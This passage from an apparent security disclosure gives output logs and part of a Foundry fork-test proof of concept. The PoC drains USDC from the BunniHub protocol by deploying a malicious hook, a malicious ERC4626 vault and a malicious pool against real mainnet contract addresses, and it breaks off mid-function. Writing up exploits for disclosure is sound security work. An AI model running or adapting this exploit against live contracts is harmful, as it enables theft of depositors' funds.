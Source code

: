 ```solidity
  BunniHub token0 raw balance after 209036268296
  BunniHub token0 vault reserve after 6790331257
  MaliciousHook token0 balance after 400772811256
  Stolen USDC 390772811256
```

A similar attack can be executed through withdrawal of malicious Bunni token shares as shown in the PoC below:

```solidity
function test_ForkWithdrawPoC() public {
    uint256 mainnetFork;
    string memory MAINNET_RPC_URL = vm.envString("MAINNET_RPC_URL");
    mainnetFork = vm.createFork(MAINNET_RPC_URL);
    vm.selectFork(mainnetFork);
    vm.rollFork(22347121);

    address USDC = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;
    address WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address USDCVault = 0x3b028b4b6c567eF5f8Ca1144Da4FbaA0D973F228; // Euler vault

    IERC20 token0 = IERC20(WETH);
    IERC20 token1 = IERC20(USDC);

    while (address(token0) > address(token1)) {
        token0 = IERC20(address(new ERC20Mock()));
    }

    poolManager = IPoolManager(0x000000000004444c5dc75cB358380D2e3dE08A90);
    hub = IBunniHub(0x000000DCeb71f3107909b1b748424349bfde5493);
    bunniHook = BunniHook(payable(0x0010d0D5dB05933Fa0D9F7038D365E1541a41888));

    // 1. Create the malicious pool linked to the malicious hook
    bytes32 salt;
    unchecked {
        bytes memory creationCode = abi.encodePacked(type(CustomHook).creationCode);
        uint256 offset;
        while (true) {
            salt = bytes32(offset);
            address deployed = computeAddress(address(this), salt, creationCode);
            if (uint160(bytes20(deployed)) & Hooks.ALL_HOOK_MASK == HOOK_FLAGS && deployed.code.length == 0) {
                break;
            }
            offset++;
        }
    }
    address customHook = address(new CustomHook{salt: salt}());

    // 2. Create the malicious vault
    MaliciousERC4626 maliciousVault = new MaliciousERC4626(token0, customHook);
    token1.approve(address(maliciousVault), type(uint256).max);
    deal(address(token1), address(maliciousVault), 1 ether);

    // 3. Register the malicious pool
    (, PoolKey memory maliciousKey) = hub.deployBunniToken(
        IBunniHub.DeployBunniTokenParams({
            currency0: Currency.wrap(address(token0)),
            currency1: Currency.wrap(address(token1)),
            tickSpacing: TICK_SPACING,
            twapSecondsAgo: TWAP_SECONDS_AGO,
            liquidityDensityFunction: new MockLDF(address(hub), address(customHook), address(quoter)),
            hooklet: IHooklet(address(0)),
```